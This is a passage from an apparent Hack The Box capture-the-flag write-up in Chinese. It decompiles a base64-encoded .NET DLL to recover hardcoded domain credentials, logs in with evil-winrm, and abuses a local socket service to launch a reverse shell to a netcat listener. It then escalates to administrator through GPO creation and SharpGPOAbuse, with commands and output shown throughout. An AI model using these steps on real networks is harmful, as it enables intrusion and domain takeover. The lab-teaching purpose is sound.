---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

b'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4QMSAw4ADwT5Aw4AMAQdBA4AQgT5Aw4ATQT5Aw4AaQQdBAAAAAABAAAAAAABAAEAAQAQABUAAAAFAAEAAQAJABAAJwAAAAUAAgAHAAEBAAAzAAAADQAKAAgAAQEAAEEAAAANABAACAABAQAATgAAAA0AFQAIAAEAEABiAAAABQAiAAgAAQCbAAoABgAFAS0ABgBBADEABgALATUABgAXATkABgAdAQoABgAnAQoABgAyAQoABgA6AQoABgZDATkAVoBLAS0AVoBVAS0AVoBjAS0AVoBuAS0AVoB1AS0ABgZDATkAVoB9ATEAVoCBATEAVoCGATEAVoCMATEABgZDATkAVoCVATUAVoCdATUAVoCkATUAVoCrATUAVoCxATUAVoC2ATUAVoC8ATUAVoDEATUAVoDJATUAVoDUATUAVoDeATUAVoDjATUAUCAAAAAAhhjFAA0AAQDUIAAAAADEAMsAFAADAAghAAAAAOYB1AAUAAMAGiEAAAAAxAHUABgAAwAAAAAAgACRINwAHQAEAAAAAACAAJEg7wAmAAgAKyEAAAAAhhjFABQACwA0IQAAAACWAPABeAALANwhAAAAAJYAGAJ8AAsA1CMAAAAAhhjFABQACwAAAAEAJQIAAAIAMQIAAAEAPQIAAAEARwIAAAIAUwIAAAMAXAIAAAQAZQIAAAEAawIAAAIAZQIAAAMAcAICAAkAMQDFAIEAOQDFABQACQDFABQAIQDbAoYAIQDoAoYAQQD7AoYASQALA4oAUQDFAJAACQDLABQAWQArA58AYQDFAKQAaQDFAKkAeQDFABQAIQDFAK8AgQDFAKQACQD7AoYAiQDsA6QAEQDUABQAKQDFABQAKQDyA8QAkQDFAKQAmQA9BBQAoQDFAMoAoQBbBNEAsQB2BNYAsQCCBNoAsQCMBNYACAAsADwACAAwAEEACAA0AEYACAA4AEsACAA8AFAACABEAFUACABIADwACABMAEEACABQAFoACABYAFUACABcADwACABgAEEACABkAEYACABoAEsACABsAFAACABwAF8ACAB0AGQACAB4AFoACAB8AGkACACAAG4ACACEAHMALgALAPkALgATAAIBAAFrADwAlgC2AN8AbgMAAQsA3AABAAABDQDvAAEABIAAAAAAAAAAAAAAAAAAAAAA1AIAAAQAAAAAAAAAAAAAAAEAcwAAAAAABAAAAAAAAAAAAAAAAQB8AAAAAAAEAAAAAAAAAAAAAAABAJcDAAAAAAAAADxNb2R1bGU+AHN0b3JlZC5kbGwATmV0d29ya0Nvbm5lY3Rpb24ATmV0UmVzb3VyY2UAUmVzb3VyY2VTY29wZQBSZXNvdXJjZVR5cGUAUmVzb3VyY2VEaXNwbGF5dHlwZQBTdG9yZWRQcm9jZWR1cmVzAG1zY29ybGliAFN5c3RlbQBPYmplY3QASURpc3Bvc2FibGUARW51bQBfbmV0d29ya05hbWUAU3lzdGVtLk5ldABOZXR3b3JrQ3JlZGVudGlhbAAuY3RvcgBGaW5hbGl6ZQBEaXNwb3NlAFdOZXRBZGRDb25uZWN0aW9uMgBXTmV0Q2FuY2VsQ29ubmVjdGlvbjIAU2NvcGUARGlzcGxheVR5cGUAVXNhZ2UATG9jYWxOYW1lAFJlbW90ZU5hbWUAQ29tbWVudABQcm92aWRlcgB2YWx1ZV9fAENvbm5lY3RlZABHbG9iYWxOZXR3b3JrAFJlbWVtYmVyZWQAUmVjZW50AENvbnRleHQAQW55AERpc2sAUHJpbnQAUmVzZXJ2ZWQAR2VuZXJpYwBEb21haW4AU2VydmVyAFNoYXJlAEZpbGUAR3JvdXAATmV0d29yawBSb290AFNoYXJlYWRtaW4ARGlyZWN0b3J5AFRyZWUATmRzY29udGFpbmVyAEJhY2t1cENsaWVudHMAU3lzdGVtLlRleHQAU3RyaW5nQnVpbGRlcgBHZW5lcmF0ZUhUTUwAbmV0d29ya05hbWUAY3JlZGVudGlhbHMAZGlzcG9zaW5nAG5ldFJlc291cmNlAHBhc3N3b3JkAHVzZXJuYW1lAGZsYWdzAG5hbWUAZm9yY2UAU3lzdGVtLlJ1bnRpbWUuQ29tcGlsZXJTZXJ2aWNlcwBDb21waWxhdGlvblJlbGF4YXRpb25zQXR0cmlidXRlAFJ1bnRpbWVDb21wYXRpYmlsaXR5QXR0cmlidXRlAHN0b3JlZABnZXRfUGFzc3dvcmQAZ2V0X1VzZXJOYW1lAEludDMyAFRvU3RyaW5nAFN0cmluZwBDb25jYXQAU3lzdGVtLklPAElPRXhjZXB0aW9uAEdDAFN1cHByZXNzRmluYWxpemUAU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzAERsbEltcG9ydEF0dHJpYnV0ZQBtcHIuZGxsAFN0cnVjdExheW91dEF0dHJpYnV0ZQBMYXlvdXRLaW5kAFN5c3RlbS5EYXRhAE1pY3Jvc29mdC5TcWxTZXJ2ZXIuU2VydmVyAFNxbFByb2NlZHVyZUF0dHJpYnV0ZQBTdHJlYW1Xcml0ZXIAVGV4dFdyaXRlcgBXcml0ZQBBcHBlbmQAU3lzdGVtLkRhdGEuU3FsQ2xpZW50AFNxbENvbm5lY3Rpb24AU3lzdGVtLkRhdGEuQ29tbW9uAERiQ29ubmVjdGlvbgBPcGVuAFNxbENvbW1hbmQAU3FsRGF0YVJlYWRlcgBFeGVjdXRlUmVhZGVyAERiRGF0YVJlYWRlcgBnZXRfSGFzUm93cwBHZXRTdHJpbmcAUmVhZAAAAAAARUUAcgByAG8AcgAgAGMAbwBuAG4AZQBjAHQAaQBuAGcAIAB0AG8AIAByAGUAbQBvAHQAZQAgAHMAaABhAHIAZQA6ACAAABFUAEUASQBHAE4AVABPAE4AABlqAGEAeQAuAHQAZQBpAGcAbgB0AG8AbgAAKUQAMABuAHQATAAwAHMAZQBTAGsAMwBsADMAdABvAG4ASwAzAHkAIQAAG1wAXABXAEUAQgBcAEMAbABpAGUAbgB0AHMAADVcAFwAVwBFAEIAXABDAGwAaQBlAG4AdABzAFwAYwBsAGkAZQBuAHQAcwAuAGgAdABtAGwAAIn3PAAhAEQATwBDAFQAWQBQAEUAIABIAFQATQBMACAAUABVAEIATABJAEMAIAAiAC0ALwAvAFcAMwBDAC8ALwBEAFQARAAgAEgAVABNAEwAIAA0AC4AMAAgAFQAcgBhAG4AcwBpAHQAaQBvAG4AYQBsAC8ALwBFAE4AIgA+AAoACgA8AGgAdABtAGwAPgAKADwAaABlAGEAZAA+AAoACQAKAAkAPABtAGUAdABhACAAaAB0AHQAcAAtAGUAcQB1AGkAdgA9ACIAYwBvAG4AdABlAG4AdAAtAHQAeQBwAGUAIgAgAGMAbwBuAHQAZQBuAHQAPQAiAHQAZQB4AHQALwBoAHQAbQBsADsAIABjAGgAYQByAHMAZQB0AD0AdQB0AGYALQA4ACIALwA+AAoACQA8AHQAaQB0AGwAZQA+ADwALwB0AGkAdABsAGUAPgAKAAkAPABtAGUAdABhACAAbgBhAG0AZQA9ACIAZwBlAG4AZQByAGEAdABvAHIAIgAgAGMAbwBuAHQAZQBuAHQAPQAiAEwAaQBiAHIAZQBPAGYAZgBpAGMAZQAgADYALgAwAC4ANwAuADMAIAAoAEwAaQBuAHUAeAApACIALwA+AAoACQA8AG0AZQB0AGEAIABuAGEAbQBlAD0AIgBjAHIAZQBhAHQAZQBkACIAIABjAG8AbgB0AGUAbgB0AD0AIgAwADAAOgAwADAAOgAwADAAIgAvAD4ACgAJADwAbQBlAHQAYQAgAG4AYQBtAGUAPQAiAGMAaABhAG4AZwBlAGQAYgB5ACIAIABjAG8AbgB0AGUAbgB0AD0AIgBDAG8AbgB0AGUAeAB0ACIALwA+AAoACQA8AG0AZQB0AGEAIABuAGEAbQBlAD0AIgBjAGgAYQBuAGcAZQBkACIAIABjAG8AbgB0AGUAbgB0AD0AIgAyADAAMgAwAC0AMAAxAC0AMQA2AFQAMQAyADoANQA3ADoANAA0ACIALwA+AAoACQA8AG0AZQB0AGEAIABuAGEAbQBlAD0AIgBBAHAAcABWAGUAcgBzAGkAbwBuACIAIABjAG8AbgB0AGUAbgB0AD0AIgAxADYALgAwADMAMAAwACIALwA+AAoACQA8AG0AZQB0AGEAIABuAGEAbQBlAD0AIgBEAG8AYwBTAGUAYwB1AHIAaQB0AHkAIgAgAGMAbwBuAHQAZQBuAHQAPQAiADAAIgAvAD4ACgAJADwAbQBlAHQAYQAgAG4AYQBtAGUAPQAiAEgAeQBwAGUAcgBsAGkAbgBrAHMAQwBoAGEAbgBnAGUAZAAiACAAYwBvAG4AdABlAG4AdAA9ACIAZgBhAGwAcwBlACIALwA+AAoACQA8AG0AZQB0AGEAIABuAGEAbQBlAD0AIgBMAGkAbgBrAHMAVQBwAFQAbwBEAGEAdABlACIAIABjAG8AbgB0AGUAbgB0AD0AIgBmAGEAbABzAGUAIgAvAD4ACgAJADwAbQBlAHQAYQAgAG4AYQBtAGUAPQAiAFMAYwBhAGwAZQBDAHIAbwBwACIAIABjAG8AbgB0AGUAbgB0AD0AIgBmAGEAbABzAGUAIgAvAD4ACgAJADwAbQBlAHQAYQAgAG4AYQBtAGUAPQAiAFMAaABhAHIAZQBEAG8AYwAiACAAYwBvAG4AdABlAG4AdAA9ACIAZgBhAGwAcwBlACIALwA+AAoACQAKAAkAPABzAHQAeQBsAGUAIAB0AHkAcABlAD0AIgB0AGUAeAB0AC8AYwBzAHMAIgA+AAoACQAJAGIAbwBkAHkALABkAGkAdgAsAHQAYQBiAGwAZQAsAHQAaABlAGEAZAAsAHQAYgBvAGQAeQAsAHQAZgBvAG8AdAAsAHQAcgAsAHQAaAAsAHQAZAAsAHAAIAB7ACAAZgBvAG4AdAAtAGYAYQBtAGkAbAB5ADoAIgBBAHIAaQBhAGwAIgA7ACAAZgBvAG4AdAAtAHMAaQB6AGUAOgB4AC0AcwBtAGEAbABsACAAfQAKAAkACQBhAC4AYwBvAG0AbQBlAG4AdAAtAGkAbgBkAGkAYwBhAHQAbwByADoAaABvAHYAZQByACAAKwAgAGMAbwBtAG0AZQBuAHQAIAB7ACAAYgBhAGMAawBnAHIAbwB1AG4AZAA6ACMAZgBmAGQAOwAgAHAAbwBzAGkAdABpAG8AbgA6AGEAYgBzAG8AbAB1AHQAZQA7ACAAZABpAHMAcABsAGEAeQA6AGIAbABvAGMAawA7ACAAYgBvAHIAZABlAHIAOgAxAHAAeAAgAHMAbwBsAGkAZAAgAGIAbABhAGMAawA7ACAAcABhAGQAZABpAG4AZwA6ADAALgA1AGUAbQA7ACAAIAB9ACAACgAJAAkAYQAuAGMAbwBtAG0AZQBuAHQALQBpAG4AZABpAGMAYQB0AG8AcgAgAHsAIABiAGEAYwBrAGcAcgBvAHUAbgBkADoAcgBlAGQAOwAgAGQAaQBzAHAAbABhAHkAOgBpAG4AbABpAG4AZQAtAGIAbABvAGMAawA7ACAAYgBvAHIAZABlAHIAOgAxAHAAeAAgAHMAbwBsAGkAZAAgAGIAbABhAGMAawA7ACAAdwBpAGQAdABoADoAMAAuADUAZQBtADsAIABoAGUAaQBnAGgAdAA6ADAALgA1AGUAbQA7ACAAIAB9ACAACgAJAAkAYwBvAG0AbQBlAG4AdAAgAHsAIABkAGkAcwBwAGwAYQB5ADoAbgBvAG4AZQA7ACAAIAB9ACAACgAJADwALwBzAHQAeQBsAGUAPgAKAAkACgA8AC8AaABlAGEAZAA+AAoACgA8AGIAbwBkAHkAPgAKADwAdABhAGIAbABlACAAYwBlAGwAbABzAHAAYQBjAGkAbgBnAD0AIgAwACIAIABiAG8AcgBkAGUAcgA9ACIAMAAiAD4ACgAJADwAYwBvAGwAZwByAG8AdQBwACAAdwBpAGQAdABoAD0AIgAxADgAMAAiAD4APAAvAGMAbwBsAGcAcgBvAHUAcAA+AAoACQA8AGMAbwBsAGcAcgBvAHUAcAAgAHcAaQBkAHQAaAA9ACIAMgAyADMAIgA+ADwALwBjAG8AbABnAHIAbwB1AHAAPgAKAAkAPABjAG8AbABnAHIAbwB1AHAAIAB3AGkAZAB0AGgAPQAiADIAMAA3ACIAPgA8AC8AYwBvAGwAZwByAG8AdQBwAD4ACgAJADwAYwBvAGwAZwByAG8AdQBwACAAdwBpAGQAdABoAD0AIgA2ADQAMgAiAD4APAAvAGMAbwBsAGcAcgBvAHUAcAA+AAoACQA8AGMAbwBsAGcAcgBvAHUAcAAgAHcAaQBkAHQAaAA9ACIAOQA2ACIAPgA8AC8AYwBvAGwAZwByAG8AdQBwAD4ACgAJADwAdAByAD4AATk8AC8AdABhAGIAbABlAD4ACgA8AC8AYgBvAGQAeQA+AAoACgA8AC8AaAB0AG0AbAA+AAoACQAJAAAJTgBhAG0AZQAAD0MAbwBtAHAAYQBuAHkAAAtFAG0AYQBpAGwAABdDAGEAcgBkACAATgB1AG0AYgBlAHIAABlTAGUAYwB1AHIAaQB0AHkAQwBvAGQAZQAACTwAdAByAD4AAF08AHQAZAAgAGgAZQBpAGcAaAB0AD0AIgAxADcAIgAgAGEAbABpAGcAbgA9ACIAbABlAGYAdAAiACAAdgBhAGwAaQBnAG4APQBiAG8AdAB0AG8AbQA+ADwAYgA+AAATPAAvAGIAPgA8AC8AdABkAD4AAAs8AC8AdAByAD4AAC9jAG8AbgB0AGUAeAB0ACAAYwBvAG4AbgBlAGMAdABpAG8AbgA9AHQAcgB1AGUAADVzAGUAbABlAGMAdAAgACoAIABmAHIAbwBtACAAYwBhAHIAZABfAGQAZQB0AGEAaQBsAHMAAFc8AHQAZAAgAGgAZQBpAGcAaAB0AD0AIgAxADcAIgAgAGEAbABpAGcAbgA9ACIAbABlAGYAdAAiACAAdgBhAGwAaQBnAG4APQBiAG8AdAB0AG8AbQA+AAALPAAvAHQAZAA+AABZrlvbO4TITrsIqJypk/eoAAi3elxWGTTgiQIGDgYgAgEOEhEDIAABBCABAQIIAAQIEgwODggGAAMIDggCAwYREAMGERQDBhEYAgYIBAEAAAAEAgAAAAQDAAAABAQAAAAEBQAAAAQAAAAABAgAAAAEBgAAAAQHAAAABAkAAAAECgAAAAQLAAAAAwAAAQQAABIVBCABAQgDIAAOBQACDg4OBSACAQ4ICAcEEgwIEgwCBAABARwEIAEBDgUgAQEROQYgAwEODg4NBwgODg4SEQ4SQRIIAgUgARIVDgYgAgEOEkkEIAASVQMgAAIEIAEOCBkHDg4OHQ4SFQ4SSRJRElUdDhIVHQ4dDggCCAEACAAAAAAAHgEAAQBUAhZXcmFwTm9uRXhjZXB0aW9uVGhyb3dzAQAAAHg7AAAAAAAAAAAAAI47AAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAOwAAAAAAAAAAX0NvckRsbE1haW4AbXNjb3JlZS5kbGwAAAAAAP8lACAAEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABABAAAAAYAACAAAAAAAAAAAAAAAAAAAABAAEAAAAwAACAAAAAAAAAAAAAAAAAAAABAAAAAABIAAAAWEAAAEQCAAAAAAAAAAAAAEQCNAAAAFYAUwBfAFYARQBSAFMASQBPAE4AXwBJAE4ARgBPAAAAAAC9BO/+AAABAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAQAAAACAAAAAAAAAAAAAAAAAAAARAAAAAEAVgBhAHIARgBpAGwAZQBJAG4AZgBvAAAAAAAkAAQAAABUAHIAYQBuAHMAbABhAHQAaQBvAG4AAAAAAAAAsASkAQAAAQBTAHQAcgBpAG4AZwBGAGkAbABlAEkAbgBmAG8AAACAAQAAAQAwADAAMAAwADAANABiADAAAAAsAAIAAQBGAGkAbABlAEQAZQBzAGMAcgBpAHAAdABpAG8AbgAAAAAAIAAAADAACAABAEYAaQBsAGUAVgBlAHIAcwBpAG8AbgAAAAAAMAAuADAALgAwAC4AMAAAADgACwABAEkAbgB0AGUAcgBuAGEAbABOAGEAbQBlAAAAcwB0AG8AcgBlAGQALgBkAGwAbAAAAAAAKAACAAEATABlAGcAYQBsAEMAbwBwAHkAcgBpAGcAaAB0AAAAIAAAAEAACwABAE8AcgBpAGcAaQBuAGEAbABGAGkAbABlAG4AYQBtAGUAAABzAHQAbwByAGUAZAAuAGQAbABsAAAAAAA0AAgAAQBQAHIAbwBkAHUAYwB0AFYAZQByAHMAaQBvAG4AAAAwAC4AMAAuADAALgAwAAAAOAAIAAEAQQBzAHMAZQBtAGIAbAB5ACAAVgBlAHIAcwBpAG8AbgAAADAALgAwAC4AMAAuADAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwAAAMAAAAoDsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
```

将其进行 Base64 Decode 之后，得到


对其使用 `ILSpy` 进行逆向分析

```csharp title="StoredProcedures"
using System.Data.SqlClient;
using System.IO;
using System.Net;
using System.Text;
using Microsoft.SqlServer.Server;

public class StoredProcedures
{
    [SqlProcedure]
    public static void BackupClients()
    {
        string domain = "TEIGNTON";
        string userName = "jay.teignton";
        string password = "D0ntL0seSk3l3tonK3y!";
        NetworkCredential credentials = new NetworkCredential(userName, password, domain);
        using (new NetworkConnection("\\\\WEB\\Clients", credentials))
        {
            string path = "\\\\WEB\\Clients\\clients.html";
            using StreamWriter streamWriter = new StreamWriter(path);
            streamWriter.Write(GenerateHTML().ToString());
        }
    }
    // ......
}
```

得到一组凭据

```plaintext
domain = "TEIGNTON"
userName = "jay.teignton"
password = "D0ntL0seSk3l3tonK3y!"
```

尝试使用 [Github - Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm) 进行连接

```shell
$ evil-winrm -i 10.13.37.12 -u jay.teignton -p 'D0ntL0seSk3l3tonK3y!'
PS C:\Users\jay.teignton\Documents> whoami
teignton\jay.teignton
PS C:\Users\jay.teignton\Documents>
```

在 `WindowsService.exe` 中发现

```shell
PS C:\Users\jay.teignton\Documents> dir

    Directory: C:\Users\jay.teignton\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/7/2020  10:31 PM          11264 WindowsService.exe
```

将这个文件下载到本地，使用 `ILSpy` 进行逆向分析，得到

```csharp
public void Start()
{
    this.IP = IPAddress.Loopback;
    this.Endpoint = new IPEndPoint(this.IP, 7734);
    try
    {
        this.Listener = new Socket(this.IP.AddressFamily, SocketType.Stream, ProtocolType.Tcp);
        this.Listener.Bind(this.Endpoint);
        this.Listener.Listen(25);
        for (;;)
        {
            Socket handler = this.Listener.Accept();
            new Thread(delegate()
            {
                try
                {
                    string data = this.GetClientMessage(handler).Trim();
                    if (this.CheckClientPassword(handler, data))
                    {
                        data = this.GetClientMessage(handler).Trim();
                        this.CheckClientCommand(handler, data);
                    }
                }
                finally
                {
                    handler.Shutdown(SocketShutdown.Both);
                    handler.Close();
                }
            }).Start();
        }
    }
    catch (Exception)
    {
    }
    finally
    {
        this.Listener.Shutdown(SocketShutdown.Both);
    }
}
```

以及

```csharp
private bool CheckClientPassword(Socket handler, string data)
{
    string[] array = data.Split(new string[]
    {
        "password="
    }, StringSplitOptions.None);
    if (array.Length != 2 || array[1] == null)
    {
        handler.Send(this.ErrorMessage);
        return false;
    }
    if (array[1] != TCPServer.Password())
    {
        handler.Send(this.ErrorMessage);
        return false;
    }
    handler.Send(this.SuccessMessage);
    return true;
}
```

```csharp
private bool CheckClientCommand(Socket handler, string data)
{
    string[] array = data.Split(new string[]
    {
        "command="
    }, StringSplitOptions.None);
    if (array.Length != 2 || array[1] == null)
    {
        handler.Send(this.ErrorMessage);
        return false;
    }
    string text = array[1];
    foreach (string value in new string[]
    {
        " ",
        "Windows",
        "System32",
        "PowerShell"
    })
    {
        if (text.Contains(value))
        {
            handler.Send(this.ErrorMessage);
            return false;
        }
    }
    this.CreateClientProcess(text);
    handler.Send(this.Flag);
    return true;
}
```

于是使用 [Github - antonioCoco/ConPtyShell](https://github.com/antonioCoco/ConPtyShell) 进行交互

```shell
PS C:\Users\jay.teignton\Documents> .\netcat.exe 127.0.0.1 7734 -v
WEB.TEIGNTON.HTB [127.0.0.1] 7734 (?) open
password=2023-04-19-thisisleet
OK
command=c:\programdata\shell.exe
CONTEXT{l0l_s0c3ts_4re_fun}
```

```shell
$ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.12
Windows PowerShell running as user andy.teignton on WEB
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
teignton\andy.teignton
```

```plaintext title="Flag"
CONTEXT{l0l_s0c3ts_4re_fun}
```

## Key to the castle

借助 GPO 进行提权

```shell
PS C:\ProgramData> New-GPO -Name privesc -Comment "Privilege Escalation"

DisplayName      : privesc
DomainName       : TEIGNTON.HTB
Owner            : TEIGNTON\andy.teignton
Id               : d85448d7-e996-4863-816c-ef9930ba5206
GpoStatus        : AllSettingsEnabled
Description      : Privilege Escalation
CreationTime     : 19/04/2023 00:10:22
ModificationTime : 19/04/2023 00:10:22
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :

PS C:\ProgramData> New-GPLink -Name privesc -Target "OU=Domain Controllers,DC=TEIGNTON,DC=HTB" -LinkEnabled Yes

GpoId       : d85448d7-e996-4863-816c-ef9930ba5206
DisplayName : privesc
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=TEIGNTON,DC=HTB
Order       : 2
```

使用 [Github - byronkg/SharpGPOAbuse](https://github.com/byronkg/SharpGPOAbuse) 进行利用

```shell
PS C:\ProgramData> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount jay.teignton --gponame privesc
[+] Domain = teignton.htb
[+] Domain Controller = WEB.TEIGNTON.HTB
[+] Distinguished Name = CN=Policies,CN=System,DC=TEIGNTON,DC=HTB
[+] SID Value of jay.teignton = S-1-5-21-3174020193-2022906219-3623556448-1103
[+] GUID of "privesc" is: {D85448D7-E996-4863-816C-EF9930BA5206}
[+] Creating file \\teignton.htb\SysVol\teignton.htb\Policies\{D85448D7-E996-4863-816C-EF9930BA5206}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!

PS C:\ProgramData> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

再次登录，即可拥有 `Administrators` 权限

```shell
$ evil-winrm -i 10.13.37.12 -u jay.teignton -p 'D0ntL0seSk3l3tonK3y!'
PS C:\Users\jay.teignton\Documents> whoami
teignton\jay.teignton
PS C:\Users\jay.teignton\Documents> Get-ADPrincipalGroupMembership -Identity "jay.teignton" | Select Name

Name
----
Domain Users
Administrators
Remote Desktop Users
Remote Management Users
```

进入 `C:\Users\Administrator` 目录

```shell
PS C:\Users\jay.teignton\Documents> cd C:\Users\Administrator\Documents
PS C:\Users\Administrator\Documents> dir

    Directory: C:\Users\Administrator\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/12/2020   5:53 PM                SQL Server Management Studio
d-----       10/12/2020   6:53 PM                Visual Studio 2017
